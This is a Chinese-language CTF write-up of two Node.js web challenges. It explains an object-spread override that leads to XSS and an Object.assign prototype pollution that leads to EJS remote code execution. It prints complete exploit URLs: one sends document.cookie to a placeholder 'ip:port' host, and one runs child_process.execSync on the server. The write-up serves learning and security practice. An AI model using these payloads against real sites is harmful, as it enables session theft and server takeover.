

# extra-safe-security-layers

弄了一大堆限制。。。都没用

```js
import { xss } from "express-xss-sanitizer";
// Safety layer 1  XSS过滤
app.use(xss());

// Saferty layer 2   黑名单限制
const s = JSON.stringify(req.query).toLowerCase();
for (const b of blacklist) {
    if (s.includes(b.toLowerCase())) {
        return res.status(403).send("You are not allowed to do that.");
    }
}

// Safety layer 3   字符限制
for (const c of s) {
    if (c.charCodeAt(0) > 127 || c.charCodeAt(0) < 32) {
        return res.status(403).send("You are not allowed to do that.");
    }
}

if (req.cookies?.admin === adminCookie) {
    res.user = {
        isAdmin: true,
        text: "Welcome back :)",
        unmodifiable: {
            background: "admin_background.png",
            CSP: `default-src 'self'; img-src 'self'; style-src '${css}'; script-src '${adminJs}' '${commonJs}';`,     // Safety layer 4 CSP限制
        },
    };
} else {
    res.user = {
        text: "Hi! You can modify this text by visiting `?text=Hi`. But I must warn you... you can't have html tags in your text.",
        unmodifiable: {
            background: "background.png",
        },
    };
}

if (req.query.text) {
    res.user = { ...res.user, ...req.query };
}
```

`res.user = { ...res.user, ...req.query };`

省略号是深拷贝对象的每个键值对，前面对`res.user`的限制全被`req.query`给覆盖过去了

访问`/report`会调用bot去访问`/${endpoint}`，`endpoint`要求以`?text=`开头，bot会带上含`flag`

的Cookie，最后通过`ejs`渲染

```js
app.post("/report", limiter, async (req, res) => {
	try {
		if (!req.body.text) {
			console.log("!req.body.text")
			throw new Error("Invalid input.");
		}
		if (typeof req.body.text !== "string") {
			console.log("!string")
			throw new Error("Invalid input.");
		}
		await report(req.body.text);
		return res.json({ success: true });
	} catch (err) {
		return res.status(400).json({ success: false });
	}
});
```

```html
<body id="main">
    <div class="userBox"><%= text ?? '<h1>This shouldn\'t be here...</h1>' %></div>
    <button id="report-button">report as unappropriate</button>
</body>
<script>
    // load background...
    main.innerHTML += `
            '>
        `;
    console.log('Loaded!');
</script>
```

> ?text=Hi&unmodifiable[CSP]=a&unmodifiable[background]=http://ip:port/test?${document.cookie}

这样拼接出来的js代码如下，模板字符串刚好获取到cookie

```js
main.innerHTML += `
   
`;
```



# PERFECT PRODUCT

```js
app.all('/product', (req, res) => {
  const params = req.query || {};
  Object.assign(params, req.body || {});

  let name = params.name 
  let strings = params.v;


  if(!(strings instanceof Array) && !Array.isArray(strings)){
    strings = ['NaN', 'NaN', 'NaN', 'NaN', 'NaN'];
  }
  
  // make _0 to point to all strings, copy to prevent reference.
  strings.unshift(Array.from(strings));

  const data = {};
  
  for(const idx in strings){
    data[`_${idx}`] = strings[idx];
  }

  if(typeof name !== 'string'){
    name = `Product: NaN`; 
  }else{
    name = `Product: ${name}`;
  }

  data['productname'] = name;

  data['print'] = !!params.print;


  res.render('product', data);
});
```

`Object.assign`一眼鉴定原型链污染

判断`v`参数是否为数组，`unshift`往数组头部插入新元素

接着生成了类似这样的结构


最后把data整个丢进去渲染了。

这题就类似hxp那题Valentines，不过换成了用原型链污染来传入模板自定义配置

但是如果直接设置params.v，不管怎么样后面都会被搞成数组，这时候就要靠原型链污染了


发现`idx`包含`__proto__`，把data污染了

渲染的时候，就算对象本身没这属性，也会去其原型中找

（不过这里req.query能直接污染也挺神奇的，把v的原型设为数组）

```js
?v[__proto__][]=0&v[0]=0&v[1]=1&v[2]=2&v[3]=3&v[4]=4&v[_proto__][settings][view%20options][client]=1&v[_proto__][settings][view%20options][escape]={}.constructor.constructor("return+process.mainModule.require('child_process').execSync('calc')")&v[_proto__][cache]=
```

或

```js
?v[__proto__][]=0&v[0]=0&v[1]=1&v[2]=2&v[3]=3&v[4]=4&v[_proto__][settings][view%20options][client]=1&v[_proto__][settings][view%20options][escape]=process.mainModule.require('child_process').execSync('calc');&v[_proto__][cache]=
```

（debug下会有奇怪的错误）

